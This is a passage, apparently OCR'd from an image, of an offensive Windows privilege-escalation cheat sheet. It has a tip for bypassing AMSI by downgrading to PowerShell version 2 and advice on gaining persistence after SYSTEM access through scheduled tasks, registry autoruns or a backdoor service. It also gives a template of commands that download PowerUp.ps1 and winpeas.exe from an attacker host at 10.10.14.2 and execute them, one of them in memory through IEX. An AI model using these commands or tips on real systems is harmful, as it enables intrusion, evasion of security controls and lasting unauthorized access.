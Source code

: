     ```powershell
    powershell -Version 2
    ```

    bypasses AMSI on older builds.
* Combine **PowerUp.ps1 + WinPEAS** for maximum coverage.
* After SYSTEM, establish persistence (`schtasks`, registry autoruns, or backdoor service).

***

### VIII. ⚔️ Bonus: PowerShell PrivEsc Template

```powershell
# PowerUp.ps1 Usage Example
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1')
Invoke-AllChecks
```

```powershell
# WinPEAS
Invoke-WebRequest -Uri http://10.10.14.2/winpeas.exe -OutFile winpeas.exe
.\winpeas.exe
```

***
